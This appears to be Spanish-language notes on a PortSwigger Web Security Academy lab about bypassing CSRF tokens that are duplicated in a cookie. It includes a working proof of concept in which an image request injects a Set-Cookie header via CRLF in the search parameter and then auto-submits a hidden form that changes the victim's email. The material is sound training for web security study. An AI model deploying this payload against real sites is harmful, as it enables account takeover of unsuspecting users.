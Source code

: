 Hay que encontrar una vía de inyectar la cookie en la sesión del cliente, en este ejemplo se inyecta a través del parámetro de búsqueda.

![image](image.png)

Poc:

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://URL-VULNERABLE/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test.com" />
      <input type="hidden" name="csrf" value="fake" />
     <input type="submit" value="Submit request" />
    </form>
      <img src="https://0a480019035853b38352287c00700099.web-security-academy.net/?search=test4%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit()">
   
  </body>
</html>

```

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie).

## Samesite cookie

Restricciones SameSite:

- Lax
- Strict
- None
